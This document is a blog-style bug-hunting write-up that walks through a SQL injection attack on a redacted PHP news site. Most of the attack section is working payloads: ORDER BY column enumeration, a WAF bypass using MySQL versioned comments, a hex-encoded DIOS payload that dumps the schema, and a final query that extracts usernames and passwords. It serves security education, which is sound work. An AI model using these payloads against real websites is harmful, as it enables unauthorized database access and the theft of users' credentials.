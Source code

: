 ```yaml
---
title: Bypassing WAF to do advanced Error-Based SQL Injection [Bug Hunting]
updated: 2020-10-24 14:15
---
```

During penetration testing, I faced with a website which on this article I will name it as **http://domain.com**
While browsing the website, I didn't see any single Parameter, even though the website was built with PHP. I quit browsing and started to Google Dorking.

## Google Dorking to look for endpoints

Using a simple dork **inurl:http://domain.com** , I managed to find some interesting endpoints:

![google_dorking](https://cdn-images-1.medium.com/max/800/1*dOzQ6osNlP2MtPepjmUfTg.jpeg)

The selected text in the image leads to an interesting point: **http://domain.com/REDACTED/news.php?id=13**
When opening the URL, I faced a MySQL Error. Even from the Google dorking result, you can see the error:

>Warning: mysql_fetch_assoc() expects parameter 1 to be resource, boolean give in … on line 27

![sql_error](https://cdn-images-1.medium.com/max/800/1*bD7dRU0SNgh8sUak9wrOtA.jpeg)

The error is very valuable to us, because we know that we can perform some Boolean-Based queries. Let's begin exploiting.

## Analyzing the website's behaviour

I tried some basic queries to see how website behaves. When I enter a bad query, I get 2 errors (1 is already a default error message, the other is caused by us).

![error_on_query](https://cdn-images-1.medium.com/max/800/1*Uc4eqKsfd1t22MTQLLIgYg.jpeg)

So we know that if our query is correct, we get only 1 error message, else we get 2 error messages. Because of this valuable information (which I took time to realise), let's get the number of columns by using ORDER BY query.

## Finding the number of columns with Boolean + ORDER BY query

Because server expects us a Boolean, I can use AND 0 boolean query, but you can also use some other boolean queries:

```sql
AND null
AND 1
```

Our query will now have both boolean and ORDER BY query. I always try to start from finding column from number 1, because it is 100% sure it won't show any error.

```sql
http://domain.com/REDACTED/news.php?id=13 AND 0 order by 1-- -
```

![order_query_enumeration](https://cdn-images-1.medium.com/max/800/1*V27VRWpRNQu0vnlCYxmAdw.jpeg)

We get only 1 error message (from website, not from our query). Now that we know our query is correct, let's try increasing the number of column by 1 until we get a second error.

```sql
?id=13 AND 0 order by 1-- - (shows 1 error)
?id=13 AND 0 order by 2-- - (shows 1 error)
?id=13 AND 0 order by 3-- - (shows 1 error)
?id=13 AND 0 order by 4 -- - (shows 1 error)
?id=13 AND 0 order by 5-- - (shows 1 error)
?id =13 AND 0 order by 6-- - (shows 2 errors)
```

2 error messages will show up when we try to find the 6th column. So it means the database has only 5 columns.

```sql
http://domain.com/REDACTED/news.php?id=13 AND 0 order by 6-
```

![2_errors_when_trying_to_find_6th_column](https://cdn-images-1.medium.com/max/800/1*8IzNhQcOpDh-kIsSpl1rUA.jpeg)

Before moving on, confirm that the database has 5 columns.

```sql
http://domain.com/REDACTED/news.php?id=13 AND 0 order by 5-- -
```

![we_found_5_columns](https://cdn-images-1.medium.com/max/800/1*tXxMtjqfSHSfv7oI562PDQ.jpeg)

## Bypassing WAF and finding which column has data to dump

Now we are sure, because we don't get a second error. Now it is time to find which of these 5 columns is filled with information using UNION SELECT query.

```sql
http://domain.com/REDACTED/news.php?id=13 AND 0 union select 1,2,3,4,5-- -
```

![waf_block_union_based_query](https://cdn-images-1.medium.com/max/800/1*R_52nBs2OihqbBqVruN9cg.jpeg)

Oh, our request got blocked from WAF, let's try bypassing it. There are tons of UNION queries to bypass WAF, but on this case what worked was:

```sql
http://domain.com/REDACTED/news.php?id=13 AND 0 /*!50000UnIoN*/ /*!50000SeLeCt*/ 1,2,3,4,5-- -
```

![waf_bypassed](https://cdn-images-1.medium.com/max/800/1*L3ExW1TVMPjUKUe1nLY8Cw.jpeg)

We bypassed WAF, however no number is displayed. Because of this, we don't know which columns we are going to dump. I looked through the whole page but nothing, so I decided to view the source code.

![source_code_column_number](https://cdn-images-1.medium.com/max/800/1*pde56DJHiNu_OK0nzmqASQ.jpeg)

In the selected part, we see the number 2 and 3. Great, now we know we have to focus on these 2 columns. In this case I will try the second column.

## Dumping all the data from the second column

### Dumping the database name
With **UNION** based query, let's dump the database name.

```sql
http://domain.com/REDACTED/news.php?id=13 AND 0 /*!50000UnIoN*/ /*!50000SeLeCt*/ 1,database(),3,4,5-- -
```

![dumping_db_name](https://cdn-images-1.medium.com/max/800/1*ZZDA5wR7U6Cu0UXRHzSsyg.jpeg)

Great, we see the database name.

### Dumping tables+columns automatically with DIOS

I will try injection a DIOS payload because getting every column for every table by manual SQL Injection is very long and boring. DIOS created a nice representation of the SQL we are facing with. The DIOS payload I used, is specially built for WAF bypassing using 0xHEX conversion and /*!00000 for string bypass.

```http
http://domain.com/REDACTED/news.php?id=13 AND 0 /*!50000UnIoN*/ /*!50000SeLeCt*/ 1,/*!00000concat*/(0x3c666f6e7420666163653d224963656c616e6422207374796c653d22636f6c6f723a7265643b746578742d736861646f773a307078203170782035707820233030303b666f6e742d73697a653a33307078223e496e6a6563746564206279204468346e692056757070616c61203c2f666f6e743e3c62723e3c666f6e7420636f6c6f723d70696e6b2073697a653d353e44622056657273696f6e203a20,version(),0x3c62723e44622055736572203a20,user(),0x3c62723e3c62723e3c2f666f6e743e3c7461626c6520626f726465723d2231223e3c74686561643e3c74723e3c74683e44617461626173653c2f74683e3c74683e5461626c653c2f74683e3c74683e436f6c756d6e3c2f74683e3c2f74686561643e3c2f74723e3c74626f64793e,(select%20(@x)%20/*!00000from*/%20(select%20(@x:=0x00),(select%20(0)%20/*!00000from*/%20(information_schema/**/.columns)%20where%20(table_schema!=0x696e666f726d6174696f6e5f736368656d61)%20and%20(0x00)%20in%20(@x:=/*!00000concat*/(@x,0x3c74723e3c74643e3c666f6e7420636f6c6f723d7265642073697a653d333e266e6273703b266e6273703b266e6273703b,table_schema,0x266e6273703b266e6273703b3c2f666f6e743e3c2f74643e3c74643e3c666f6e7420636f6c6f723d677265656e2073697a653d333e266e6273703b266e6273703b266e6273703b,table_name,0x266e6273703b266e6273703b3c2f666f6e743e3c2f74643e3c74643e3c666f6e7420636f6c6f723d626c75652073697a653d333e,column_name,0x266e6273703b266e6273703b3c2f666f6e743e3c2f74643e3c2f74723e))))x)),3,4,5-- -
```

![dios_db_dumped](https://cdn-images-1.medium.com/max/800/1*_ochp_xXzWmqScYbWHe5qQ.jpeg)

### Dumping the data inside the columns

Great, we have the tables and the columns for each table. From all this big table, I fill focus on these 2 tables.

![focusing_on_user_table](https://cdn-images-1.medium.com/max/800/1*2MALUlU8GPXr4kFUhtwLsw.png)

This is what grabbed my attention. I will focus **user** table and will dump the data from 2 columns: **username** and **password**

The final Payload will be:

```sql
http://domain.com/REDACTED/news.php?id=13 AND 0 /*!50000UnIoN*/ /*!50000SeLeCt*/ 1,(SELECT+GROUP_CONCAT(username,0x3a,password+SEPARATOR+0x3c62723e)+FROM+kbelb_db.user),3,4,5-- -
```

Now look at the source and we get the username:password of admin/user.

![credentials_dumped](https://cdn-images-1.medium.com/max/800/1*zje07q7CEF-n9XCx3geRfg.jpeg)
